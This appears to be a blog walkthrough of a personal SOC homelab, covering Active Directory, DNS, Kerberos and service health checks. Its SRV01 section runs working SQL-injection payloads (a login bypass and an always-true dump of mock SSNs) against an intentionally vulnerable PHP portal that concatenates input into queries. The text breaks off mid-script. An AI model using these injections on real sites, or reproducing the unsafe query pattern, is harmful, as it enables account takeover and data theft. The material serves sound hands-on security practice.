Homelab Walkthrough

This is a walkthrough of my SOC homelab: two inexpensive desktop PCs, my old laptop, a TP-Link switch, two external drives, and five monitors. This self-built environment gives me more control and visibility than preconfigured online labs. In addition to practicing attack and defense, I can study the systems, dependencies, and telemetry that make each scenario possible.
Estate map
| Host | IP | Role in one word | OS | Domain role | Wazuh ID | Velociraptor client | SSH account |
|---|---|---|---|---|---|---|---|
| CORP | 10.10.10.10 | Console | Windows 11 Pro | Standalone (workgroup) | n/a (host) | n/a | local session |
| BLUETEAM | 10.10.10.20 | Hypervisor (defense) | Windows 11 Pro | Standalone (workgroup) | n/a (host) | n/a | blueteam_admin |
| Windows laptop | 10.10.10.40 | Hypervisor (adversary) | Windows 11 | Standalone (workgroup) | n/a (host) | n/a | local console; SSH absent |
| DC01 | 10.10.10.11 | Identity | Server 2022 | Primary Domain Controller | 001 | C.213b6d359ae5a1ca |
Administrator (bare) |
| SRV01 | 10.10.10.12 | Services | Server 2022 | Member Server | 003 | C.177f8ab1390cfc00 |
CORP\Administrator |
| WS01 | 10.10.10.21 | Endpoint | Windows 11 Ent | Member Workstation | 002 | C.5fe9a6e786e4687d |
CORP\Administrator |
| WS02 | 10.10.10.22 | Endpoint | Windows 11 Ent | Member Workstation | 004 | C.e07d49d200b14e75 |
CORP\Administrator |
| SIEM01 | 10.10.10.5 | Detection | Ubuntu 26.04 | n/a (Linux) | 000 | server | root |
| SIEM02 | 10.10.10.6 | Decision | Ubuntu 26.04 | n/a (Linux) | 005 | C.1f5481f7eebcb77b |
root |
| KALI | 10.10.10.30 | Adversary | Kali Rolling | n/a (Linux) | none (by design) | none (by design) | red_admin |
| C2-01 | 10.10.10.31 | C2 server | Ubuntu 26.04 | n/a (Linux) | none (by design) | none (by design) | root |
CORP
Host identity and capacity
CORP is a Dell OptiPlex purchased on eBay for $325. Its 32 GB of RAM is enough to run four VMs: DC01, SRV01, WS01, and WS02. Together, those VMs form the simulated enterprise network. A USB hard drive provides shared storage for the lab, and an additional external SSD stores the VM files.
# Print the local computer name.
hostname
# Report the operating-system version and architecture.
Get-CimInstance Win32_OperatingSystem |
Select-Object Caption, Version, BuildNumber, OSArchitecture
# Report the host identity, domain role, hardware model, and installed RAM.
Get-CimInstance Win32_ComputerSystem |
Select-Object Name, Domain, DomainRole, Manufacturer, Model, @{N='RAM_GB';E={[math]::Round($_.TotalPhysicalMemory / 1GB)}}
# Report the label and remaining space on the external E: volume.
Get-Volume -DriveLetter E |
Select-Object DriveLetter, FileSystemLabel, @{N='FreeGB';E={[math]::Round($_.SizeRemaining / 1GB, 1)}}
CORP
Caption Version BuildNumber OSArchitecture
------- ------- ----------- --------------
Microsoft Windows 11 Pro 10.0.26200 26200 64-bit
Name : CORP
Domain : WORKGROUP
DomainRole : 0
Manufacturer : Dell Inc.
Model : OptiPlex 7050
RAM_GB : 32
DriveLetter FileSystemLabel FreeGB
----------- --------------- ------
E Elements 1135.50
Estate reachability
CORP is the primary console, where I do most of my work. A DomainRole value of 0 confirms that the physical host is not domain-joined. This is by design to separate it from the attack surface. I have a PowerShell script that fetches the hostname from every other device in the lab over SSH to test connectivity:
# Add spacing before the reachability results.
Write-Host ""
# Map each static address to the SSH account expected on that host.
$SshTargets = [ordered]@{
'10.10.10.5' = 'blue_admin' # SIEM01
'10.10.10.6' = 'root' # SIEM02
'10.10.10.11' = 'Administrator' # DC01
'10.10.10.12' = 'CORP\Administrator' # SRV01
'10.10.10.20' = 'blueteam_admin' # BLUETEAM
'10.10.10.21' = 'CORP\Administrator' # WS01
'10.10.10.22' = 'CORP\Administrator' # WS02
'10.10.10.30' = 'red_admin' # KALI
'10.10.10.31' = 'root' # C2-01
'10.10.10.40' = 'redteam_admin' # ATTACKBOX
}
# Test noninteractive SSH access and print the hostname returned by each target.
$SshTargets.GetEnumerator() | ForEach-Object {
# Print the current IP without ending the line.
Write-Host ("{0,-14} -> " -f $_.Key) -NoNewline
# Fail quickly if key-based authentication or network access is unavailable.
ssh -o BatchMode=yes -o ConnectTimeout=8 "$($_.Value)@$($_.Key)" hostname 2>&1 |
Select-Object -Last 1
}
# Add spacing after the results.
Write-Host ""
As a second check, this Python script pings every lab device by IP address and writes a persistent reachability snapshot:
# Import timestamp support for the report header.
import datetime
# Import pathlib for reliable Windows path handling.
import pathlib
# Import subprocess so the script can call the Windows ping utility.
import subprocess
# Map canonical lab hostnames to their static IP addresses.
hosts = {
"SIEM01": "10.10.10.5", # Wazuh and Velociraptor
"SIEM02": "10.10.10.6", # Splunk
"CORP": "10.10.10.10", # Operator console
"DC01": "10.10.10.11", # Domain controller and DNS
"SRV01": "10.10.10.12", # Application server
"BLUETEAM": "10.10.10.20",# Defensive hypervisor
"WS01": "10.10.10.21", # Workstation one
"WS02": "10.10.10.22", # Workstation two
"KALI": "10.10.10.30", # Attacker VM
"C2-01": "10.10.10.31", # Command-and-control VM
"LAPTOP": "10.10.10.40", # Offensive hypervisor
}
# Keep the reachability report on persistent external storage.
out = pathlib.Path(r"E:\01 Scripts\02 Health Checks\Estate-Reachability.txt")
# Create the output directory if it does not already exist.
out.parent.mkdir(parents=True, exist_ok=True)
# Start the report with the local collection time.
lines = [f"estate reachability {datetime.datetime.now():%Y-%m-%d %H:%M}"]
# Test every mapped host once.
for name, ip in hosts.items():
# Wait no more than 800 milliseconds for the single echo reply.
result = subprocess.run(
["ping", "-n", "1", "-w", "800", ip],
capture_output=True,
text=True,
check=False,
)
# Translate the ping exit code into a compact status line.
status = "UP" if result.returncode == 0 else "DOWN"
# Preserve the hostname, address, and status in aligned columns.
lines.append(f"{name:<10}{ip:<14}{status}")
# Write the complete snapshot as UTF-8 text.
out.write_text("\n".join(lines) + "\n", encoding="utf-8")
# Print the same snapshot for immediate review.
print("\n" + out.read_text(encoding="utf-8"))

The operator console is healthy and can reach the estate. The next two sections document the physical systems that host the defensive and offensive VMs.
BLUETEAM
Defensive hypervisor
BLUETEAM is another Dell OptiPlex with 32 GB of RAM, purchased on eBay for $325 and configured like CORP. It hosts SIEM01 (Wazuh and Velociraptor) and SIEM02 (Splunk), so it serves as the defensive workstation. It is intentionally outside the AD domain. An external SSD is still on the shopping list because these inexpensive OptiPlex systems include only 250 GB of internal storage.
# Print the local hostname and operating-system build.
hostname
Get-CimInstance Win32_OperatingSystem |
Select-Object Caption, BuildNumber
# List every VMware virtual machine currently running on this hypervisor.
& 'C:\Program Files\VMware\VMware Workstation\vmrun.exe' list
# Report free system-drive capacity and total physical RAM.
Get-CimInstance Win32_ComputerSystem |
Select-Object @{N='FreeC_GB';E={[math]::Round((Get-Volume -DriveLetter C).SizeRemaining / 1GB, 1)}}, @{N='RAM_GB';E={[math]::Round($_.TotalPhysicalMemory / 1GB)}}
BLUETEAM
Caption BuildNumber
------- -----------
Microsoft Windows 11 Pro 26200
Total running VMs: 2
C:\Virtual Machines\SIEM01\SIEM01.vmx
C:\Virtual Machines\SIEM02\SIEM02.vmx
ATTACKBOX
Offensive hypervisor
My old laptop is the third physical host. It runs the Kali attacker VM and an additional Ubuntu command-and-control server, making it the offensive operator workstation.
# Print the offensive hypervisor's hostname.
hostname
# Confirm that the lab-facing adapter owns the expected static address.
Get-NetIPAddress -AddressFamily IPv4 |
Where-Object IPAddress -eq '10.10.10.40'
# List every VMware virtual machine currently running on this hypervisor.
& 'C:\Program Files\VMware\VMware Workstation\vmrun.exe' list
AttackBox
IPAddress : 10.10.10.40
InterfaceIndex : 9
InterfaceAlias : Ethernet
AddressFamily : IPv4
Type : Unicast
PrefixLength : 24
PrefixOrigin : Manual
SuffixOrigin : Manual
AddressState : Preferred
ValidLifetime : Infinite ([TimeSpan]::MaxValue)
PreferredLifetime : Infinite ([TimeSpan]::MaxValue)
SkipAsSource : False
PolicyStore : ActiveStore
Total running VMs: 2
C:\Lab\VMs\KALI\KALI.vmx
C:\Lab\VMs\c2-01\c2-01.vmx
With the physical layer established, I can validate the core services that make the simulated enterprise function. Identity and name resolution come first because nearly every later test depends on them.
DC01
Identity and directory health
With the physical hosts documented, the walkthrough moves to the first VM: DC01. The domain controller is the estate's identity authority. It holds the directory accounts and runs the DNS service that lab systems use to locate one another. The command below shows the corp.local domain and a DomainRole value of 5, which identifies the system as a primary domain controller.
- 0=Standalone Workstation
- 1=Member Workstation
- 2=Standalone Server
- 3=Member Server
- 4=Backup Domain Controller
- 5=Primary Domain Controller
# Print the hostname and confirm the machine's domain membership and role.
hostname
Get-CimInstance Win32_ComputerSystem |
Select-Object Name, Domain, DomainRole
DC01
Name Domain DomainRole
---- ------ ----------
DC01 corp.local 5
The command above queries the local machine's view of itself. The commands below query Active Directory and the services that support it:
# Read the domain identity, functional level, and PDC emulator from Active Directory.
Get-ADDomain |
Select-Object DNSRoot, NetBIOSName, DomainMode, PDCEmulator
# Confirm that the directory, DNS, Kerberos, logon, and time services are running.
Get-Service NTDS, DNS, KDC, Netlogon, W32Time |
Select-Object Name, Status
DNSRoot NetBIOSName DomainMode PDCEmulator
------- ----------- ---------- -----------
corp.local CORP Windows2016Domain DC01.corp.local
Name Status
---- ------
DNS Running
KDC Running
Netlogon Running
NTDS Running
W32Time Running
- DNSRoot: The fully qualified domain name (e.g., corp.example.com).
- NetBIOSName: The legacy, short domain name (e.g., CORP).
- DomainMode: The functional level of the domain, which dictates supported features and legacy compatibility.
- PDCEmulator: Identifies the Domain Controller holding the Primary Domain Controller Emulator FSMO role. This server handles time synchronization and password changes.
- NTDS: Active Directory Domain Services, the core directory database.
- DNS: Domain Name System, essential for locating AD resources.
- KDC: Key Distribution Center, the backbone of Kerberos authentication.
- Netlogon: Maintains the secure channel between computers and the domain controller.
- W32Time: Windows Time Service, which keeps clocks within Kerberos's allowed skew so ticket validation can succeed. Ticket lifetimes and other Kerberos controls constrain replay; time synchronization alone does not prevent replay.
Next, I use the standard DC health command to check network connectivity, service health, DNS registration, SYSVOL availability, replication integrity, machine account status, and FSMO role placement. The /q flag prints only reported failures, so an empty result means this run found no failures. It does not replace logs, replication monitoring, or application-level tests.
# Run the domain-controller diagnostic suite and display only failures.
dcdiag /q
[empty]
DNS validation
The required services are running. I now query them directly, beginning with an A-record lookup that proves DC01 answers for the corp.local zone:
# Resolve SRV01's A record by querying DC01 directly.
Resolve-DnsName srv01.corp.local -Server 10.10.10.11 |
Format-List
Name : srv01.corp.local
Type : A
TTL : 3600
DataLength : 4
Section : Answer
IPAddress : 10.10.10.12
hMailServer runs on SRV01, while DC01 hosts the MX record that directs mail clients to it:
# Resolve the FakeCorp mail exchanger and its accompanying address record through DC01.
Resolve-DnsName fakecorp.local -Type MX -Server 10.10.10.11 |
Format-List
Name : fakecorp.local
Type : MX
TTL : 3600
NameExchange : mail.fakecorp.local
Preference : 10
Name : mail.fakecorp.local
QueryType : A
TTL : 3600
Section : Additional
IP4Address : 10.10.10.12
An MX record names a mail host rather than an IP address. Here, the answer identifies mail.fakecorp.local, and the response's Additional section supplies its A record, 10.10.10.12. Including that related address can save the client from making a separate lookup, although clients must still handle responses in which no Additional record is present.
After resolving SRV01 by hostname, I run reverse (PTR) lookups to confirm that the selected IP addresses map back to the expected hostnames:
# Submit the selected endpoint and server addresses for reverse-DNS resolution through DC01.
"10.10.10.22", "10.10.10.21", "10.10.10.12" |
Resolve-DnsName -Server 10.10.10.11 |
Format-List
Name : 22.10.10.10.in-addr.arpa
Type : PTR
TTL : 1200
Section : Answer
NameHost : WS02.corp.local
Name : 21.10.10.10.in-addr.arpa
Type : PTR
TTL : 1200
Section : Answer
NameHost : WS01.corp.local
Name : 12.10.10.10.in-addr.arpa
Type : PTR
TTL : 3600
Section : Answer
NameHost : srv01.corp.local
Why does the last octet of the IP address appear first?
srv01.corp.local
└── local ← top-level
└── corp ← second-level
└── srv01 ← host
10.10.10.12
└── 10 ← most significant (network)
└── 10
└── 10
└── 12 ← least significant (host)
To make IP addresses fit the same DNS hierarchy model, the IETF decided to reverse the order of the octets and put them under the special domain in-addr.arpa. By reversing the octets, the most significant part of the IP (the network) ends up on the right side of the name, exactly where DNS expects the higher-level domains.
| Real IP address | Reverse DNS name |
|---|---|
| 10.10.10.12 | 12.10.10.10.in-addr.arpa |
| 10.10.10.21 | 21.10.10.10.in-addr.arpa |
| 10.10.10.22 | 22.10.10.10.in-addr.arpa |
Next, I retrieve DNS query statistics from the domain controller:
# Expand DC01's cumulative DNS query counters for transport-level review.
Get-DnsServerStatistics |
Select-Object -ExpandProperty QueryStatistics
TcpClientConnections : 137
TcpQueries : 126
TcpQueriesSent : 0
TcpResponses : 103
TcpResponsesReceived : 0
UdpQueries : 64236
UdpQueriesSent : 17662
UdpResponses : 59273
UdpResponsesReceived : 16430
PSComputerName :
UDP handles most ordinary DNS queries without establishing a connection. DNS uses TCP when a UDP response is truncated or otherwise cannot carry the complete answer, and for operations such as zone transfers. That difference explains why the recorded TCP counters are much lower than the UDP counters.
Directory inventory
The next query inventories the user accounts currently stored in the directory:
# List all directory users with their enabled state, sorted by logon name.
Get-ADUser -Filter * |
Select-Object SamAccountName, Enabled |
Sort-Object SamAccountName
SamAccountName Enabled
-------------- -------
Administrator True
avery.patel False
codex_agent True
eli.brooks False
Guest False
krbtgt False
labadmin2 True
maya.chen False
nora.williams False
TEST_USER1 True
TEST_USER2 True
TEST_USER3 True
WS02_User True
The directory contains mostly test users that I enable and disable for specific lab work, along with the disabled krbtgt and default Guest accounts. Most administrative work in this isolated lab takes place through Administrator.
I then list the computer accounts joined to the domain:
# List all domain computer accounts and their registered DNS hostnames.
Get-ADComputer -Filter * |
Select-Object Name, DNSHostName
Name DNSHostName
---- -----------
DC01 DC01.corp.local
SRV01 SRV01.corp.local
WS01 WS01.corp.local
WS02 WS02.corp.local
Kerberos authentication path
The DNS and directory results match the estate map. From SRV01, I now test the Kerberos path to DC01:
# Run these commands from a domain-joined SRV01 session.
# Remove cached Kerberos tickets for the current logon session.
klist purge
# Access SYSVOL to request the required Kerberos tickets, then display the refreshed cache.
Get-ChildItem \\dc01.corp.local\sysvol | Out-Null
klist
This clears the current logon session's Kerberos cache. Accessing SYSVOL then causes Windows to obtain the tickets needed for that SMB path, including a TGT when one is not already cached and a service ticket for cifs/dc01.
The `klist` output below records the logon session's cached ticket-granting ticket (TGT) and service tickets:
Current LogonId is 0:0x1168bb5
Cached Tickets: (3)
#0> Client: Administrator @ CORP.LOCAL
Server: krbtgt/CORP.LOCAL @ CORP.LOCAL
KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
Start Time: 9/8/2026 12:51:34 (local)
End Time: 9/8/2026 22:51:34 (local)
Renew Time: 9/15/2026 12:51:34 (local)
Session Key Type: AES-256-CTS-HMAC-SHA1-96
Cache Flags: 0x2 -> DELEGATION
Kdc Called: DC01.corp.local
#1> Client: Administrator @ CORP.LOCAL
Server: krbtgt/CORP.LOCAL @ CORP.LOCAL
KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
Start Time: 9/8/2026 12:51:34 (local)
End Time: 9/8/2026 22:51:34 (local)
Renew Time: 9/15/2026 12:51:34 (local)
Session Key Type: AES-256-CTS-HMAC-SHA1-96
Cache Flags: 0x1 -> PRIMARY
Kdc Called: DC01.corp.local
#2> Client: Administrator @ CORP.LOCAL
Server: cifs/dc01.corp.local @ CORP.LOCAL
KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
Start Time: 9/8/2026 12:51:34 (local)
End Time: 9/8/2026 22:51:34 (local)
Renew Time: 9/15/2026 12:51:34 (local)
Session Key Type: AES-256-CTS-HMAC-SHA1-96
Cache Flags: 0
Kdc Called: DC01.corp.local
Client-side discovery and telemetry
This Python script parses the SRV record that domain-joined machines use to locate a domain controller:
# Import regular-expression matching for the nslookup response.
import re
# Import pathlib so the raw response can be written safely.
import pathlib
# Import subprocess so Python can execute nslookup.
import subprocess
# Query the AD domain-controller locator record through DC01.
result = subprocess.run(
["nslookup", "-type=SRV", "_ldap._tcp.dc._msdcs.corp.local", "10.10.10.11"],
capture_output=True,
text=True,
check=False,
)
# Stop with the command's diagnostic text if nslookup failed.
if result.returncode != 0:
raise RuntimeError(result.stderr.strip() or "nslookup failed without an error message")
# Extract each advertised domain-controller hostname from the successful response.
hosts = re.findall(r"svr hostname\s*=\s*(\S+)", result.stdout, flags=re.IGNORECASE)
# Display the parsed result while preserving a clear failure hint.
print("DCs advertised via SRV:", hosts or "(none found - check DNS)")
# Keep the complete response as persistent evidence.
output = pathlib.Path(r"E:\01 Scripts\02 Health Checks\Host\dc-srv.txt")
# Create the evidence directory if needed.
output.parent.mkdir(parents=True, exist_ok=True)
# Write the raw response without changing its content.
output.write_text(result.stdout, encoding="utf-8")
Server: UnKnown
Address: 10.10.10.11
_ldap._tcp.dc._msdcs.corp.local SRV service location:
priority = 0
weight = 100
port = 389
svr hostname = dc01.corp.local
dc01.corp.local internet address = 10.10.10.11
Finally, I check the defensive services installed on DC01:
# Confirm that Sysmon, Wazuh, and Velociraptor are running on this host.
Get-Service -Name @('Sysmon64', 'WazuhSvc', 'Velociraptor') |
Select-Object Name, Status
Name Status
---- ------
Sysmon64 Running
Velociraptor Running
WazuhSvc Running
Sysmon records detailed endpoint activity. The Wazuh agent forwards selected event data to SIEM01, while the Velociraptor client provides a separate path for point-in-time host collection and process analysis.
DC01 has now proved the estate's identity, DNS, and Kerberos foundations. SRV01 is the next dependency because it concentrates the lab's file, web, database, and mail workloads.
SRV01
Host identity and application services
DC01 provides identity; SRV01 provides file shares, a web application, its supporting database, and a mail server. SRV01 is domain-joined but holds no directory role, which makes it a member server. It is also a major part of the lab's attack surface. The fictional FakeCorp portal is the controlled exfiltration target, and its mail server supports phishing exercises.
Identity:
# Print the hostname and confirm SRV01's domain membership and member-server role.
hostname
Get-CimInstance Win32_ComputerSystem |
Select-Object Name, Domain, DomainRole
SRV01
Name Domain DomainRole
---- ------ ----------
SRV01 corp.local 3
The three main application services are:
# Confirm that IIS, MySQL, and hMailServer are running and set to start automatically.
Get-Service W3SVC, MySQL97, hMailServer |
Select-Object Name, Status, StartType
Name Status StartType
---- ------ ---------
hMailServer Running Automatic
MySQL97 Running Automatic
W3SVC Running Automatic
File services
The SMB file shares:
# List user-created SMB shares while excluding administrative shares that end in a dollar sign.
Get-SmbShare |
Where-Object { $_.Name -notmatch '\$$' } |
Select-Object Name, Path
Name Path
---- ----
Finance C:\Shares\Finance
HR C:\Shares\HR
Radiology C:\Shares\Radiology
-notmatch '\$$' is a regex: \$ is a literal dollar sign and the trailing $ anchors it to end-of-name, so this drops C$, ADMIN$, IPC$.
I then enumerate the shares as a network client would see them, rather than relying only on local service state:
# Enumerate the shares SRV01 exposes to a network client.
net view \\SRV01
Shared resources at \\SRV01
Share name Type Used as Comment
Finance Disk x x
HR Disk x x
Radiology Disk x x
The command completed successfully.
To prove the share actually serves files, this PowerShell command quickly mounts, lists, and unmounts one:
# Mount the Finance share temporarily, list its contents, and remove the temporary drive in all cases.
New-PSDrive -Name S -PSProvider FileSystem -Root \\SRV01\Finance -ErrorAction Stop | Out-Null
try {
# Prove the share serves directory content.
Get-ChildItem S:\
}
finally {
# Remove the temporary mapping even if enumeration fails.
Remove-PSDrive S -ErrorAction SilentlyContinue
}
No successful directory listing was retained in this run.
The original one-line version removed the temporary drive before a later prompt tried to enumerate it, so its captured output did not prove file access. The corrected try/finally version above performs the listing while the drive exists and always removes the mapping afterward. I need to rerun it and retain the successful listing before treating this check as evidence.
Web and database tier
I start the FakeCorp portal review by checking its physical path and binding port:
# Select the FakeCorp IIS site and report its state, disk path, and bindings.
Get-Website |
Where-Object Name -eq 'FakeCorp' |
Select-Object Name, State, PhysicalPath, @{N='Binding';E={$_.Bindings.Collection.bindingInformation}}
name state physicalPath Binding
---- ----- ------------ -------
FakeCorp Started C:\inetpub\fakecorp *:8080:
Is it really up?
# Request the FakeCorp home page locally and print its HTTP status code.
(Invoke-WebRequest 'http://localhost:8080/' -UseBasicParsing).StatusCode
200
Next, I discover the form fields by extracting the <input> elements from the page source:
# Fetch the FakeCorp login page.
$response = Invoke-WebRequest 'http://localhost:8080/' -UseBasicParsing
# List the names and types of the HTML form inputs found in the response.
$response.InputFields | Select-Object Name, Type
name type
---- ----
email text
password password
The login page is index.php. It posts to itself, and its query is SELECT id, first_name, last_name FROM employees WHERE email='$email' AND password='$password' LIMIT 1 with the email field concatenated straight in. The bypass payload closes the quote and comments out the password test:
# Submit the documented lab-only SQL-injection string and retain the authenticated session.
$session = Invoke-WebRequest 'http://localhost:8080/' -Method POST -Body @{
email = "admin@fakecorp.local' -- "
password = 'x'
} -UseBasicParsing -SessionVariable WebSession
# State whether the expected authenticated marker appeared in the response.
if ($session.Content -match 'Signed in as') {
'BYPASS OK - authenticated as admin with no password'
}
else {
'Login page returned - injection did not take'
}
The PowerShell payload above turns the SQL query from this:
-- Select the identity fields required by the login handler.
SELECT id, first_name, last_name FROM employees
-- Require both submitted values and return at most one account.
WHERE email='$email' AND password='$password' LIMIT 1
To this:
-- Select the same identity fields after interpolation.
SELECT id, first_name, last_name FROM employees
-- The injected comment marker removes the password predicate from execution.
WHERE email='admin@fakecorp.local' -- ' AND password='x' LIMIT 1
- The single quote closes the email string early.
- -- starts a SQL comment, so everything after it (the password check) is ignored.
- Result: the query only checks whether a user with that email exists. The password is never verified.
BYPASS OK - authenticated as admin with no password
The next controlled test uses the directory search in directory.php, whose q parameter is inserted directly into ... WHERE last_name LIKE '%$q%' OR department LIKE '%$q%'. I reuse the authenticated session and submit an always-true condition:
# Reuse the authenticated session and submit the documented always-true directory query.
$dump = Invoke-WebRequest "http://localhost:8080/directory.php?q=' OR '1'='1' --+" -UseBasicParsing -WebSession $WebSession
# Extract unique mock SSN-shaped values from the returned HTML.
([regex]::Matches($dump.Content, '\d{3}-\d{2}-\d{4}')).Value |
Select-Object -Unique
481-22-9080
502-88-1147
466-15-3341
336-71-4402
419-55-6621
305-27-6618
390-51-7723
288-40-7715
145-92-3308
174-83-9902
372-18-5529
260-47-8813
408-33-2190
331-60-4472
517-29-6084
223-74-1156
000-00-0001
The regex pattern \d{3}-\d{2}-\d{4} extracts the mock social security numbers.
To compare, this is the normal query the application expects:
-- Search the employee table.
SELECT ...
FROM employees
-- Match the submitted term against either supported column.
WHERE name LIKE '%$q%'
OR department LIKE '%$q%'
The payload query instead sends:
-- Search the same employee table after direct payload interpolation.
SELECT ...
FROM employees
-- Make the first predicate true and comment out the rest of the statement.
WHERE name LIKE '%' OR '1'='1' --+%'
OR department LIKE '%' OR '1'='1' --+%'
After the database applies the comment marker, the executed condition effectively becomes:
-- This is the effective statement after the database applies the comment marker.
SELECT ...
FROM employees
-- The always-true expression causes every row to match.
WHERE name LIKE '%' OR '1'='1'
I now run a query through the least-privilege webapp account. That account can read only the FakeCorp database, so it cannot change data or access other databases. This limits the impact of a successful injection:
# Request the least-privilege database credential without placing the password in the script.
$dbCredential = Get-Credential -UserName webapp -Message 'Retrieve the FakeCorp webapp credential securely'
# Expose the password only to the MySQL client process through its supported environment variable.
$env:MYSQL_PWD = $dbCredential.GetNetworkCredential().Password
try {
# Read five sample rows using the web application's restricted database account.
& 'C:\Program Files\MySQL\MySQL Server 9.7\bin\mysql.exe' -u webapp -h 127.0.0.1 -N -e "SELECT email, ssn, salary FROM fakecorp.employees LIMIT 5"
}
finally {
# Remove the temporary password value from the process environment.
Remove-Item Env:MYSQL_PWD -ErrorAction SilentlyContinue
}
PowerShell credential request
Retrieve the FakeCorp webapp credential securely
Password for user webapp: ************
+------------------------+-------------+--------+
| pvance@fakecorp.local | 481-22-9080 | 385000 |
| mbell@fakecorp.local | 502-88-1147 | 295000 |
| wfoster@fakecorp.local | 466-15-3341 | 268000 |
| dokafor@fakecorp.local | 336-71-4402 | 172000 |
| rcho@fakecorp.local | 419-55-6621 | 118000 |
+------------------------+-------------+--------+
MySQL (3306) and its X Plugin (33060) listen only on 127.0.0.1, not the lab address, so the database is reachable by the web app on the same box but not from the network:
# Confirm that MySQL's classic and X Protocol ports are listening.
Get-NetTCPConnection -State Listen -LocalPort 3306, 33060 |
Select-Object LocalAddress, LocalPort
LocalAddress LocalPort
------------ ---------
127.0.0.1 33060
127.0.0.1 3306
Mail tier
The next check confirms that hMailServer's SMTP, POP3, and IMAP listeners are bound:
# Confirm the SMTP, POP3, IMAP, and submission listeners, then sort them by port.
Get-NetTCPConnection -State Listen -LocalPort 25, 110, 143, 587 |
Select-Object LocalAddress, LocalPort |
Sort-Object LocalPort
LocalAddress LocalPort
------------ ---------
0.0.0.0 25
0.0.0.0 110
0.0.0.0 143
0.0.0.0 587
Why does it show 0.0.0.0?
That includes:
- The internal IP (e.g. 10.10.10.12)
- The loopback address (127.0.0.1)
- Any other network adapters the server has
Confirm configuration through hMailServer's own API:
# Request the hMailServer administrator credential interactively.
$hmCredential = Get-Credential -UserName Administrator -Message 'Retrieve the hMailServer administrator credential securely'
# Connect to hMailServer's local COM administration interface.
$hMail = New-Object -ComObject hMailServer.Application
# Authenticate the COM session without writing the password to output.
$hMail.Authenticate($hmCredential.UserName, $hmCredential.GetNetworkCredential().Password) | Out-Null
# Read the configured FakeCorp mail domain.
$domain = $hMail.Domains.ItemByName('fakecorp.local')
# Print the domain state and mailbox count.
"domain=$($domain.Name) active=$($domain.Active) mailboxes=$($domain.Accounts.Count)"
PowerShell credential request
Retrieve the hMailServer administrator credential securely
Password for user Administrator: **************
domain=fakecorp.local active=True mailboxes=17
The following Python script sends a uniquely tagged message through hMailServer and verifies that the exact message reached the server-side mail store:
This version does not need or log a mail credential. It submits a message for the existing local mailbox pvance@fakecorp.local, gives the message a unique run ID, then uses the already-tested SSH administration route to locate that exact .eml in hMailServer's data store and hash it. It also confirms that the POP3 listener answers.
"""Send and verify one run-scoped message through the isolated FakeCorp mail lab."""
# Allow modern type annotations while keeping runtime behavior explicit.
from __future__ import annotations
# Encode the remote PowerShell payload for reliable SSH transport.
import base64
# Create timezone-aware timestamps for correlation and evidence.
import datetime as dt
# Build the SMTP message with the standard email API.
from email.message import EmailMessage
# Generate RFC-compliant Date and Message-ID headers.
import email.utils
# Parse the structured result returned by SRV01.
import json
# Manage evidence paths without manual separator handling.
import pathlib
# Check the POP3 listener without transmitting a mailbox credential.
import poplib
# Submit the lab message over SMTP.
import smtplib
# Run the SSH client used for server-side verification.
import subprocess
# Bound the delivery polling loop with a monotonic clock.
import time
# Add a collision-resistant suffix to each run identifier.
import uuid
# Address the mail services on SRV01 directly inside the isolated lab.
MAIL_HOST = "10.10.10.12"
# Use hMailServer's plaintext SMTP listener for message submission.
SMTP_PORT = 25
# Use hMailServer's POP3 listener for a credential-free banner check.
POP3_PORT = 110
# Identify the controlled sender used by this walkthrough.
SENDER = "walkthrough@corp.local"
# Deliver to an existing local FakeCorp mailbox.
RECIPIENT = "pvance@fakecorp.local"
# Reuse the established SSH administration route to SRV01.
REMOTE_TARGET = r"CORP\Administrator@10.10.10.12"
# Search only hMailServer's FakeCorp message store on SRV01.
REMOTE_DATA_ROOT = r"C:\Program Files (x86)\hMailServer\Data\fakecorp.local"
